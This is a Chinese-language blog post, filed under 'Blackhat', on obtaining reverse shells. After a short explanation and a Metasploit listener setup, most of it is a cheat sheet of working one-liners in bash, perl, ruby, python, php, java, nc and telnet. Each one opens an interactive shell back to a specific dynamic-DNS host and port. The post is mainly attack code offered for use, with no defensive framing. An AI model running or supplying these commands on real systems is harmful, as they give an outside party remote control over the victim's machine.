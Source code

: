 ```yaml
---
title: 触发反向 shell 的多种方式获取控制权
name: reversh-shell-way
date: 2019-06-05
tags: [shell,reverse]
categories: [Blackhat]
---
```


* 目录
{:toc}

![metasploit](//via.placeholder.com/748x370?text=""){: data-src="//vinnycc.oss-cn-shanghai.aliyuncs.com/20190605/1512862_1adf.png"}

## 原理

正向连接获取shell的方式早已不是主流，很容易被防火墙或者杀毒软件监控到，除非是正常的授权操作方式。反向连接原理是攻击者启动监听服务，等待被攻击者主动连接从而获取shell，连接通常是建立 **/bin/bash** 或者 **cmd** 的通道。

## 启动监听

使用 metasploit 常规监听方式

```shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload generic/shell_reverse_tcp
msf exploit(handler) > ...... # 设置监听参数
msf exploit(handler) > exploit -j
```

## 反向连接

```shell
# bash
$ bash -i > /dev/tcp/m1d8457118.iok.la/12832 0<&1 2>&1

# perl
$ perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"m1d8457118.iok.la:12832");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# ruby
$ ruby -rsocket -e 'exit if fork;c=TCPSocket.new("m1d8457118.iok.la","12832");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# python
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("m1d8457118.iok.la",12832));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# php
$ php -r '$sock=fsockopen("m1d8457118.iok.la",12832);exec("/bin/sh -i <&3 >&3 2>&3");'

# java
r = Runtime.getRuntime();
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/m1d8457118.iok.la/12832;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
p.waitFor();

# nc
$ nc -e /bin/sh m1d8457118.iok.la 12832
$ /bin/sh | nc m1d8457118.iok.la 12832 # -e 选项被禁用的情况

# telnet
$ mknod backpipe p && telnet m1d8457118.iok.la 12832 0<backpipe | /bin/bash 1>backpipe
```